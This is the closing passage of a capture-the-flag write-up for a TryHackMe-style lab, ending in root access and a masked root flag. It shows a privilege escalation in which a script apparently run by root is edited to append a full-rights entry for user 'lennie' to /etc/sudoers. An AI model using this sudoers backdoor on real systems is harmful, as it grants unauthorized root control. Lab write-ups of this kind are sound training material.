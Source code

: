 Bingo!
![](https://imgur.com/EM7BaRNl.png)
### Alternative way: Sudoers file
We can add `lennie` to sudoers files with full root access
```bash
lennie@startup:~$ cat /etc/print.sh
#!/bin/bash
echo "lennie ALL=(ALL) ALL" >> /etc/sudoers
```
After sometimes, run `sudo bash`. You will be root!

### Root flag
```bash
# cat /root/root.txt
THM{xxxxxxxxxxxxxxxxxx}
```
Congratulations and thank you for reading!
